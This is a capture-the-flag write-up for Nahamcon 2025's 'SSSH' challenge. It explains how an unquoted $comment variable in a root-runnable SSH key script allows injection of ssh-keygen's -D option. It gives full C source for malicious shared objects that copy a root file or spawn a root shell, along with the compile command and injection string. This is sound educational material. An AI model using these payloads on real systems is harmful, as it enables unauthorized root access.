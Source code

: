 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2025 | SSSH Writeup
desc: Check out our writeup for SSSH for Nahamcon 2025 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Nahamcon 2025
parent: nahamcon_2025
category: misc
challenge: SSSH
tags: "misc, twh, privesc, gtfobins, ssh, lib2shell"
date: 2025-05-31T00:00:00+00:00
last_modified_at: 2025-05-31T00:00:00+00:00
---
```




> Solved by thewhiteh4t

In this challenge we were given SSH access to an instance which contained a custom bash script which is a SSH key manager script. Running `sudo -l` reveals that our user can run the script as root without a password. This was a privilege escalation challenge.


![](https://i.imgur.com/ZToHz2J.png)


Luckily the code of the script was readable. After reading it for some time one block looked interesting : 


    comment=$(gum input --placeholder "Enter comment for key (optional)" --prompt "Comment: ")
    
        if ! is_valid_input "$comment"; then
            gum style --foreground "$ERROR_FG" --border-foreground "$ERROR_BORDER_FG" --border double --align center --width "$BOX_WIDTH" --margin "$BOX_MARGIN" --padding "$BOX_PADDING" "Invalid comment: Dangerous characters"
            return 1
        fi
    
        if [ -f ~/.ssh/"$key_name" ] || [ -f ~/.ssh/"$key_name.pub" ]; then
            if ! gum confirm "Key ~/.ssh/$key_name already exists. Overwrite?"; then
                return
            fi
            overwrite_flag="-y"
        else
            overwrite_flag=""
        fi
    
        mkdir -p ~/.ssh
        chmod 700 ~/.ssh
    
        if [ -n "$comment" ]; then
            error_output=$(gum spin --spinner dot --title "Generating key in ~/.ssh..." -- \
                ssh-keygen $overwrite_flag -C $comment -t $key_type -f ~/.ssh/"$key_name" -N "$passphrase" 2>&1)
        else
            error_output=$(gum spin --spinner dot --title "Generating key in ~/.ssh..." -- \
                ssh-keygen $overwrite_flag -t $key_type -f ~/.ssh/"$key_name" -N "$passphrase" 2>&1)
        fi

As you must have noticed all the inputs are quoted except one : 


    ssh-keygen $overwrite_flag -C $comment -t $key_type -f ~/.ssh/"$key_name" -N "$passphrase" 2>&1)

`$comment` is left unquoted so we can inject something here.

After a lot of hit and trials I finally realized that `ssh-keygen` offers a privesc vector. You can find more about it here :

[GTFOBins](https://gtfobins.github.io/gtfobins/ssh-keygen/)

Since we can have control over comment argument option we can simply add more arguments, specifically `-D` so that we can execute our malicious shared object `.so` file.

But first I had to figure out how to create a malicious shared object file for ssh-keygen. My search led me to a fork of [lib2shell](https://github.com/jonasheschl/lib2shell-ssh-keygen/blob/master/unix/lib2shell.c) which does exactly what I need. So I used the following code to compile the so file : 


    #include <stdio.h>
    #include <unistd.h>
    
    #define SHELL_PATH "/bin/sh"
    
    void __attribute__ ((constructor)) constructor() {
        puts("[lib2shell by SeanP, modified by Jonas Heschl]");
    
        long long err = execl(SHELL_PATH, SHELL_PATH, "cp /root/flag.txt /home/user/flag.txt; chown user:user /home/user/flag.txt", NULL);
        printf("Result: %lld\n", err);
    }
    
    // ssh-keygen makes a rudimentary check when loading a library with `ssh-keygen -D`.
    // If the check fails, loading is aborted. This function exists to make the check pass.
    int C_GetFunctionList() {
        return 1;
    }

Compiled it using : 


    gcc -fPIC -shared -o twh.so twh.c

and here is the value of comment I used :


    a -D ./twh.so

First I managed to copy the flag from `/root/flag.txt` to `/home/user/flag.txt` but I did not get the flag!


![](https://i.imgur.com/JGHdgr9.png)


So now the goal was to obtain a root shell. The problem was that a simple payload like `/bin/bash -s` was not working since the script uses `gum` which is a kind of wrapper that is used to create the TUI of the script, so the shell spawn was not usable due to messed up input output redirection.

Then I eventually landed on a fix for redirection, alternatively we can also use the bash reverse shell which most are familiar with


    #include <stdio.h>
    #include <unistd.h>
    
    #define SHELL_PATH "/bin/sh"
    
    void __attribute__ ((constructor)) constructor() {
        puts("[lib2shell by SeanP, modified by Jonas Heschl]");
    
        long long err = execl("/bin/bash", "bash", "-c", "bash < /dev/tty > /dev/tty 2>&1 &", NULL);
        printf("Result: %lld\n", err);
    }
    
    int C_GetFunctionList() {
        return 1;
    }

Using the new so file I managed to get a root shell.


![](https://i.imgur.com/xrcbmXv.png)


Then I saw why I did not get flag earlier, because we were supposed to run a binary to get the flag, this was done to increase the complexity of the challenge a bit.


![](https://i.imgur.com/lnlmWcA.png)


**Key Learning and Takeaways**


- Code Review : We had the script's code, which is a blessing in CTFs. The key was to read through it slowly while understanding what each line is doing.
- GTFOBins : When you find a command that can be run as root, your next stop should be GTFOBins. It's an incredible resource that lists known ways to abuse common binaries for privilege escalation.
- Crafting the Malicious Shared Object : This was the truly technical part! We needed a specific .so file that would execute a shell for us when loaded. Finding and adapting a lib2shell fork was fun.

